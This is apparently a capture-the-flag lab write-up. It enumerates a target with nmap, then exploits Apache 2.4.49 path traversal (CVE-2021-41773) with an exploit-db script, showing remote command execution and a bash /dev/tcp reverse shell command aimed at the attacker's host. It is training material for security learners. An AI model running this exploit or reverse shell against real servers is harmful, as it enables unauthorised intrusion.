 # IP
10.10.251.106

## Enumeration
### Nmap 
- Found 2 ports running on the system

```console
❯ nmap -sC -sV 10.10.251.106 | tee nmap.log
Starting Nmap 7.92 ( https://nmap.org ) at 2022-10-21 19:21 IST
Nmap scan report for 10.10.251.106
Host is up (0.16s latency).
Not shown: 998 filtered tcp ports (no-response)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 e0:d1:88:76:2a:93:79:d3:91:04:6d:25:16:0e:56:d4 (RSA)
|   256 91:18:5c:2c:5e:f8:99:3c:9a:1f:04:24:30:0e:aa:9b (ECDSA)
|_  256 d1:63:2a:36:dd:94:cf:3c:57:3e:8a:e8:85:00:ca:f6 (ED25519)
80/tcp open  http    Apache httpd 2.4.49 ((Unix))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: Consult - Business Consultancy Agency Template | Home
|_http-server-header: Apache/2.4.49 (Unix)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 24.63 seconds
```

- Port `80/tcp` has `Apache/2.4.49`, which on googling found was vulnerable to [CVE:2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773).<br />

# Exploitation
## Apache 2.4.49 ([CVE:2021-41773](https://nvd.nist.gov/vuln/detail/CVE-2021-41773))

- For exploiting the system I used a script from [exploitdb](https://www.exploit-db.com/exploits/50383).<br />
- On reversing the script, found that the system uses a file name with IP address of the target and command to execute as a parameter.
```console
❯ echo "10.10.251.106" > target.txt
❯ bash exploit.sh
Set [TAGET-LIST.TXT] [PATH] [COMMAND]
./PoC.sh targets.txt /etc/passwd
```
- On loading target IP to the file, executed the exploit with `whoami` command
```console
❯ bash exploit.sh target.txt /bin/sh "whoami"
10.10.251.106
daemon
```
- We can try to load a reverse shell script and get a reverse shell.
```console
❯ bash exploit.sh target.txt /bin/sh "bash -c 'bash -i >& /dev/tcp/10.8.0.150/8080 0>&1'"
10.10.251.106
```
